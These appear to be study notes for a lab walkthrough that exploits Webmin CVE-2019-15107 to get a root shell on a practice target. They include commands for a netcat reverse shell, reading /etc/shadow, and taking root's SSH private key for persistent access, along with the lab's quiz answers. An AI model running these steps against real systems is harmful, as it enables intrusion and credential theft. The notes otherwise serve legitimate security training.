 In the previous task we found a vulnerable service[[1]](https://sensorstechforum.com/cve-2019-15107-webmin/)[[2]](https://www.webmin.com/exploit.html) running on the target which will give us the ability to execute commands on the target.

The next step would usually be to find an exploit for this vulnerability. There are often exploits available online for known vulnerabilities (and we will cover searching for these in an upcoming task!), however, in this instance, an exploit is provided [here](https://github.com/MuirlandOracle/CVE-2019-15107).

---

Start by cloning the repository. This can be done with the following command:

`git clone https://github.com/MuirlandOracle/CVE-2019-15107`  

This creates a local copy of the exploit on our attacking machine. Navigate into the folder then install the required Python libraries:

`cd CVE-2019-15107 && pip3 install -r requirements.txt`  

If this doesn't work, you may need to install pip before downloading the libraries. This can be done with:  
`sudo apt install python3-pip`  

The script should already be executable, but if not, add the executable bit (`chmod +x ./CVE-2019-15107.py`).

Never run an unknown script from the internet! Read through the code and see if you can get an idea of what it's doing. (Don't worry if you aren't familiar with Python -- in this case the exploit was coded by the author of this content and is being run in a lab environment, so you can infer that it isn't malicious. It is, however, good practice to read through scripts before running them).  

Once you're satisfied that the script will do what it says it will, run the exploit against the target!

`./CVE-2019-15107.py TARGET_IP`

![[Exploitation-20241127151137527.webp]]


[1] [https://sensorstechforum.com/cve-2019-15107-webmin/](https://sensorstechforum.com/cve-2019-15107-webmin/)  
[2] [https://www.webmin.com/exploit.html](https://www.webmin.com/exploit.html)

Run the following command to get the user.
```
# whoami
```

![[Exploitation-20241127151941324.webp]]

> [!Success]
>We won't need to escalate privileges here, so we can move on to the next step in the exploitation process. Before we do though: nice though this pseudoshell is, it's not a full reverse shell. Get a reverse shell from the target. You can either do this manually, or by typing `shell` into the pseudoshell and following the instructions given.

> [!question]
>Which user was the server running as?
>`root'
## Shell
- Type shell and introduce the ATTACKING MACHINE IP and a port.
- Open a netcat connection on the ATTACKING_MACHINE.

![[Exploitation-20241129143642892.webp]]

```
$ nc -lnvp <port>
```

You'll have a reverse shell.


## Stabilize the reverse shell

**Optional:** Stabilise the reverse shell. There are several techniques for doing this detailed [here](https://tryhackme.com/room/introtoshells).

```
$ python3 -c 'import pty;pty.spawn("/bin/bash")'
$ export TERM=xterm

```


## root user's password hash

Run the following command on the reverse shell:

```
# cat /etc/shadow
```

![[Exploitation-20241129144943322.webp]]

### **Hash Components**

1. **Hashing Algorithm**:  
    `$6$` signifies the use of **SHA-512** hashing.
    
2. **Salt**:  
    `i9vT8tk3SoXXxK2P` is the salt used in this hash. It randomizes the hash computation to ensure uniqueness, even if two users have the same password.
    
3. **Hash Value**:  
    `HDIAwho9FOdd4QCecIJKwAwwh8Hwl.BdsbMOUAd3X/chSCvrmpfy.5lrLgnRVNq6/6g0PxK9VqSdy47/qKXad1` is the actual hash of the password combined with the salt.
    
4. **Remaining Fields**:  
    The `::0:99999:7:::` part relates to password aging and policy settings:
    
    - `0`: Minimum number of days before the password can be changed.
    - `99999`: Maximum number of days the password is valid.
    - `7`: Warning days before the password expires.
    - `:::`: Reserved fields, typically empty.


> [!question]
>Now for a little post-exploitation!What is the root user's password hash?
>`HDIAwho9FOdd4QCecIJKwAwwh8Hwl.BdsbMOUAd3X/chSCvrmpfy.5lrLgnRVNq6/6g0PxK9VqSdy47/qKXad1`


## Consistent access to the root user account

You won't be able to crack the root password hash, but you might be able to find a certain file that will give you consistent access to the root user account through one of the other services on the box.

One of the services on the machine is SSH.

The **SSH (Secure Shell) service** is a network protocol that allows secure remote login and command execution over an encrypted connection. It is widely used to manage Linux/Unix systems remotely.

### **Key Features of SSH**

1. **Encryption**: All data transmitted between the client and server is encrypted.
2. **Authentication**:
    - Password-based authentication.
    - Key-based authentication using SSH keys.
3. **Port Forwarding**: Securely forward ports over an SSH connection.
4. **File Transfer**: Tools like `scp` and `sftp` are built on SSH for secure file transfer.
5. **Tunneling**: Encrypt network traffic for other applications (e.g., SOCKS proxy).

### **SSH Key Files Overview**

When you generate an SSH key pair, two files are created:

1. `id_rsa`: The private key (keep this secure and never share it).
2. `id_rsa.pub`: The public key (this can be shared and placed on the remote server).

These files are usually stored in the `~/.ssh/` directory on your Linux machine.

> [!question]
>What is the full path to this file?
>`/root/.ssh/id_rsa`

Download the key (copying and pasting it to a file on your own Attacking Machine works), then use the command `chmod 600 KEY_NAME` (substituting in the name of the key) to obtain persistent access to the box.  

We have everything we need for now. Let's move on to the next section: Pivoting!

**Next section:** [[What is Pivoting?]]
